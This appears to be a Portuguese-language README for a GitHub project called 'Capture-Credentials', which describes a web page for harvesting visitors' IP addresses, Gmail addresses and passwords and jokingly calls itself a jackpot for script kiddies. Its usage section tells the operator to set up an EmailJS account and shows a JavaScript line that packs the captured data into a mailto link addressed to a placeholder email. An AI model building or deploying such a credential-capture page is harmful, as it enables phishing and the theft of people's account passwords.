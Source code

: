 # Capture-Credentials
Esse projeto é como um jackpot para "script-kids" já que é de preferência duvidosa, pode ser usado em uma via Web para capturar identificadores. 
Endereço IP
Gmail
Senha 
# Como usar?
   Crie uma conta no EmailJS (https://www.emailjs.com/) 
Substitua no código 
   // Abre o cliente de e-mail do usuário com os dados preenchidos
    window.location.href = `mailto:seuemail@example.com?subject=Contato&body=${encodeURIComponent(corpoEmail)}`;
